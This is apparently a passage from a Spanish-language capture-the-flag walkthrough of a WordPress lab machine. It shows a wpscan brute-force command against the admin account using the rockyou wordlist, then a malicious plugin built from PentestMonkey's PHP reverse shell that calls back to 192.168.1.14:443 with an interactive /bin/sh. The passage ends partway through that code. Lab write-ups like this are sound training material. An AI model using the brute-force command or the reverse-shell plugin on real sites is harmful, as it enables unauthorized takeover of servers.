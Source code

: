 ```bash
wpscan --url http://escolares.dl/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt 
```


![[Pasted image 20250106210154.png]]

¡BINGO! Ahora que tenemos la contraseña del usuario admin, podemos autenticarnos en el panel de administración de WordPress.

Al ingresar las credenciales, se muestra la siguiente ventana, en la cual haremos clic en "Recuérdamelo más tarde" 

![[Pasted image 20250106210430.png]]

¡Y pa dentro! Ahora estamos en el panel de control de WordPress.

![[Pasted image 20250106210652.png]]

Ahora procederemos a ir al apartado de Plugins para comprobar si el sistema nos permite subir un plugin malicioso y así poder ganar acceso a la máquina víctima.

Procederemos a crear un plugin malicioso ayudándonos de la reverse shell de PentestMonkey, el cual adaptaremos para que WordPress lo reconozca como un plugin.

Creamos un fichero llamado revPlugin.php cuyo contenido sera lo siguiente:

```bash
<?php
/*
Plugin Name: Reverse Shell Plugin
Plugin URI: https://github.com/SkyW4r33x
Description: Plugin RevShell
Version: 1.0
Author: SkyW4r33x
Author URI: https://github.com/SkyW4r33x
License: GPL2
*/
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.14';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
```